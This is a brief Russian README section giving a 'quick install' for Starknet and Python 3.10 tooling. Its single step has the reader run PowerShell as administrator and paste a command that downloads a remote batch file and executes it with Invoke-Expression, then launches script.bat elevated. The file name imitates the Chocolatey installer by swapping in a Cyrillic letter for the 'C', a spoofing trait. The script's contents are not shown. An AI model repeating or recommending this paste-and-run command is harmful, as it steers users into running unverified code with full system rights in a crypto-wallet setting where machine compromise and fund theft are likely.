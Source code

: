 # Быстрая установка

### Запуск делаем в Powershell от администратора 

__* Starknet__

Установка нужных компонентов для работой с Starknet / Python 3.10

```
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/zhernosek12/pxc_installer/master/%D0%A1hocolateyInstall_v2.bat')) ; Start-Process -FilePath .\script.bat -Verb RunAs
```